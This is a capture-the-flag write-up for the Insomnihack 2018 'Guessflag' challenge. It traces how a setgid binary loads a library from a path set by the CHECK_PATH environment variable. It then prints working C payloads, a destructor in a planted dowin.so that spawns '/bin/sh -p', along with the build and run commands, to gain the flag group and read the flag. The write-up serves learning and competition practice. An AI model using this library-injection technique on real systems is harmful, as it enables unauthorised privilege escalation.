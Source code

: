 ### Guessflag
Guessflag was a **warmup pwn** at insomnihack 2018. It was a **fairly easy challenge**, but we struggled a lot on small details.

### The challenge
We were given a ssh connection on a remote server, and the challenge was in `/home/flag` .
There were a shared lib, dowin.so, the main binary, guessflag, and a text file, flag.txt.
**We can see that guessflag was setgid and the group "flag" was the owner of both the flag.txt file and the guessflag binary**.
```
user1@insomniak:/home/flag$ ls -al
total 32
drwxr-xr-x  2 root root  4096 Mar 26 13:18 .
drwxr-xr-x 12 root root 4096 Mar 26 12:50 ..
-rwxr-xr-x  1 root root  7512 Mar 26 12:50 dowin.so
-rwxr-sr-x  1 root flag  8520 Mar 26 12:51 guessflag
-rw-r-----  1 root flag   262 Mar 26 13:18 flag.txt
```
With those informations, we know that we probably have to exploit the guessflag binary to run commands as the "flag" group and cat our flag.txt file, which certainly contain our flag.

### Analysis
Lets start with some analysis of the binary.

First we look at the output of the file command. 
```
user1@insomniak:/home/flag$ file guessflag                                                                                                                      
guessflag: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
```
It tell us that it is **compiled as a dynamic binary** , which means it rely on the libc of the remote server for standard functions like printf and that stuff. We could hook a standard function using  [LD_PRELOAD trick](https://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/) , but from our little experience , we known that **LD_PRELOAD is ignored when the binary is setuid or setgid**, which is the case here.

So let's move on and look at ltrace's output.
```
user1@insomniak:/home/flag$ ltrace ./guessflag                                                                                                                    
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
+++ exited (status 255) +++
```
Nothing fancy here, let's try with an argument.
```
user1@insomniak:/home/flag$ ltrace ./guessflag arg                                                                                                                   
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
getenv("CHECK_PATH")                                                                                                    = nil
snprintf("(null)/dowin.so", 1024, "%s/dowin.so", nil)                                                                   = 15
dlopen("(null)/dowin.so", 1)                                                                                            = 0
+++ exited (status 255) +++
```

Uuh! Looks like it **first check  if we have an argument , and if there is one it try to get the content of the environnement variable CHECK_PATH**.
Let's try to set this variable : 
```
user1@insomniak:/home/flag$ CHECK_PATH=test ltrace ./guessflag arg                                                                                                   
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
getenv("CHECK_PATH")                                                                                                    = "test"
snprintf("test/dowin.so", 1024, "%s/dowin.so", "test")                                                                  = 13
dlopen("test/dowin.so", 1)                                                                                              = 0
+++ exited (status 255) +++
```

Yup, so it looks like it **append the content of the environnement var CHECK_PATH to the string "/dowin.so" and then try to dlopen it**. Which means that if we set the CHECK_PATH variable to something like `/tmp/pld` and create our own dowin.so in this directory, it will load it !

### Exploit

We've never met the dlopen function before, but it's a really easy-to-understand function.
It simply open the given shared file and give you the ability to execute the function it provide.

The problem here is that we can't create a random function, and simply load our library. Our function will never be called. 

Here we struggled a bit, and Geluchat gave us a neat trick : **you can use the [.fini section](http://l4u-00.jinr.ru/usoft/WWW/www_debian.org/Documentation/elf/node3.html) by creating a destructor in our dowin.so, and it will execute it when the lib is unloaded** (e.g when the binary exit).

So it gave use a payload like this :

```c
#include <unistd.h>

void begin (void) __attribute__((destructor));

void begin (void) {
	system("id && whoami");
}


```

We setted up the exploit in tmp : 

```
user1@insomniak:/home/flag$ mkdir /tmp/pld && cd /tmp/pld
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ export CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
uid=1005(user1) gid=985(users) groups=985(users)
user1
```

Yeah nice , our destructor got executed !
But wait ... it dropped the rights :( Why this ?

We struggled like 2 hours on this, and we then asked for a bit of help to a Securimag member.
**He told us that on this machine, /bin/sh was a symlink to /bin/bash, which by default drop  the setgid and setuid rights when it is called**.
And with a `man system` , we can easily figure out that `system()` simply call `/bin/sh` with it's argument.

He also told us that **the '-p' argument on /bin/sh prevent it to drop the rights**.

That gave us our second payload : 

```c
void begin (void) __attribute__((destructor));

void begin (void) {
	char *envp[] = { NULL };
	char *argv[] = { "/bin/sh", "-p", NULL };
	execve("/bin/sh", argv, envp);
}
```

```
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
user1@insomniak:/tmp/pld$ id
uid=1005(user1) gid=985(users) groups=985(users), 990(flag)
```

Yey ! We have a shell with the `flag` group :D

### Flag
```
user1@insomniak:/tmp/pld$ cat /home/flag/flag.txt
INS{th4t_library_was_usele$$}
```
